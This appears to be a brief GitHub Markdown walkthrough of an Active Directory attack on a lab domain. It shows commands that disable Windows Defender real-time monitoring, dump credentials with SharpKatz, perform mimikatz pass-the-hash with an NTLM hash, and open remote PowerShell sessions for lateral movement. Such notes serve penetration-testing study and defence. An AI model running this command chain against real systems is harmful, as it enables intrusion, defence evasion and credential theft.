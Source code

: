 # Exploitation

```
Local Administrator privileges
```
![f0ns1 privileges](resources/f0ns1_local_admin.png)

# Disable Defender (resources/Local Machine)
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Dump credentials

```
C:\Windows\system32>z:\SharpKatz.exe
```

# Impersonation: PassTheHash

```
C:\Windows\system32>C:\Temp\mimikatz.exe
```
```
mimikatz # privilege::debug
```
```
mimikatz # sekurlsa::pth /domain:ad.forest.local /user:worker01 /ntlm:b2bdbe60565b677dfb133866722317fd
```
![pth new terminal](resources/pth_new_terminal.png)

# Lateral movement

```
C:\Windows\system32>powershell
```
```
PS C:\Windows\system32> New-PSSession -ComputerName winserv2019forest.ad.forest.corp
```
```
PS C:\Windows\system32> Enter-PSSession -ComputerName winserv2019forest.ad.forest.corp
```
